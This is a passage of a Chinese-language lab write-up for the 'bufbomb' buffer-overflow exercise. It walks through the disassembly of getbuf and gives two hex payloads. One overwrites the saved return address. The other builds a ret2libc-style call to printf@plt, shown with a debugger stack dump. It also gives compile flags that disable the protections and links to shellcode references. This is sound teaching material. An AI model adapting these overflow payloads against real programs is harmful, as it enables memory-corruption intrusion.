 ```assembly
08049288 <getbuf>:
 8049288:	55                   	push   ebp
 8049289:	89 e5                	mov    ebp,esp
 804928b:	83 ec 18             	sub    esp,0x18
 804928e:	e8 bb 00 00 00       	call   804934e <__x86.get_pc_thunk.ax>
 8049293:	05 6d 2d 00 00       	add    eax,0x2d6d
 8049298:	83 ec 0c             	sub    esp,0xc
 804929b:	8d 45 e8             	lea    eax,[ebp-0x18]
 804929e:	50                   	push   eax
 804929f:	e8 02 ff ff ff       	call   80491a6 <getxs>
 80492a4:	83 c4 10             	add    esp,0x10
 80492a7:	b8 01 00 00 00       	mov    eax,0x1
 80492ac:	c9                   	leave  
 80492ad:	c3                   	ret
```

显然栈抬升了0x18个Bytes（注意栈从高向低生长）。因此我们的Payload需要加上0x18个Bytes的填充。

程序为32位程序；那么Payload还需要加上0x04个Bytes来填充edp。

最后我们需要将存储的eip指针覆盖为我们想要去的地址，也就是`0x80492e0`，并且使得覆盖完后的栈顶[^1]为0xdeadbeef。（注意Linux x64是小端序机器）

这是一种Payload：`00000000 00000000 00000000 00000000 00000000 00000000 00000000 E0920408 EFBEADDE`

## solution2

* elf file: `bufbomb`
* compile command: `gcc -m32 bufbomb.c -o bufbomb -g -no-pie -fno-stack-protector -O0`
* guard: no PIE, no Canary


另外一个非常容易想到的思路和`ret2libc`[^2]非常像。

我们完全可以不使用`0x080492e7`处的`printf`————我们可以自己构造一个出来！

字符串的地址是`0x0804A019`，第二个参数应为0xdeadbeef，所以根据i386架构下的`ret2libc`原理，我们可以写出以下payload：

``` padding + ebp + (target address) + (return address) + arg1 + arg2 + arg3 ... ```

与solution1中一样，padding为0x18Bytes，ebp为0x04Bytes。目标函数为`printf`在plt表中的位置。return function可以不填。arg1为`0x0804A019`，arg2为0xdeadbeef。

```bash
00:0000│ eax esp 0xffffd3b0 ◂— 0x0
... ↓            6 skipped
07:001c│         0xffffd3cc —▸ 0x8049050 (printf@plt) ◂— jmp dword ptr [0x804c010]
08:0020│         0xffffd3d0 ◂— 0x0
09:0024│         0xffffd3d4 —▸ 0x804a019 ◂— 'getbuf returned 0x%x\n'
0a:0028│         0xffffd3d8 ◂— 0xdeadbeef
```

从上至下依次是28Bytes的padding zeros，目标函数地址，返回地址，参数1，参数2。

payload: `00000000 00000000 00000000 00000000 00000000 00000000 00000000 50900408 00000000 19A00408 EFBEADDE`


[^1]: 基本的[C语言函数调用栈](https://www.cnblogs.com/clover-toeic/p/3755401.html)知识可以看这篇文章。
[^2]: 在CTF-Wiki上简述了[ret2libc](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2libc)的原理和利用方法。
[^3]: [How to turn off gcc compiler optimization to enable buffer overflow? - stackoverflow](https://stackoverflow.com/questions/2340259/how-to-turn-off-gcc-compiler-optimization-to-enable-buffer-overflow)
[^4]: 我们可以使用[PWNTools中的ASM模块](https://docs.pwntools.com/en/stable/asm.html)来将汇编代码编译成字节码。
[^5]: 利用`int 0x80`执行了`/bin/sh`的一段[Shellcode](https://shell-storm.org/shellcode/files/shellcode-841.html)